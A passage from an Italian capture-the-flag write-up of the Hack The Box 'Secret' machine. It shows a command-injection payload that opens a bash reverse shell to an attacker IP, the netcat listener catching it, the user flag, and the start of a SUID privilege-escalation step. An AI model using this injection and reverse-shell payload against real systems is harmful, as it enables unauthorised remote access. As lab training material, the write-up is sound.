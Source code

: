 e gli passiamo il seguente payload

```bash
 ?file=;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/9001+0>%261'
```

ottenendo cosi la nostra shell

```bash
┌──(kali㉿kali)-[~/htb/secret]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.120] 43640
bash: cannot set terminal process group (1117): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
dasith@secret:~/local-web$
```

e ci prendiamo la nostra user flag.

```bash
dasith@secret:~/local-web$ cat /home/dasith/user.txt
cat /home/dasith/user.txt
a63afb05e9dac037d0d681f9e95a1b8f
```

# PRIVESC

Parte del processo di enumerazione è quell di ricercare file con SUID abilitato e per farlo utilizziamo il seguente comando 

SUID è un tipo di autorizzazione che consente agli utenti di eseguire un file con le autorizzazioni di un utente specifico. I file che hanno permessi SUID impostati vengono eseguiti con gli stessi privilegi dell’utente originale. Supponendo di accedere ad un sistema come utente non root e di aver trovato binari appartenenti a root con il bit SUID abilitato quei file (programma o comandi) possono essere eseguiti con privilegi di root senza di fatto esserlo.

```bash
dasith@secret:~/local-web$ find / -perm -u=s 2>/dev/null
..<snip>..
/opt/count
..<snip>..
```

se ci rechiamo in `/opt/` abbiamo anche il codice di questo binario
```bash
dasith@secret:/opt$ cat code.c
..<snip>..

int main()
{
    char path[100];
    int res;
    struct stat path_s;
    char summary[4096];

    printf("Enter source file/directory name: ");
    scanf("%99s", path);
    getchar();
    stat(path, &path_s);
    if(S_ISDIR(path_s.st_mode))
        dircount(path, summary);
    else
        filecount(path, summary);

```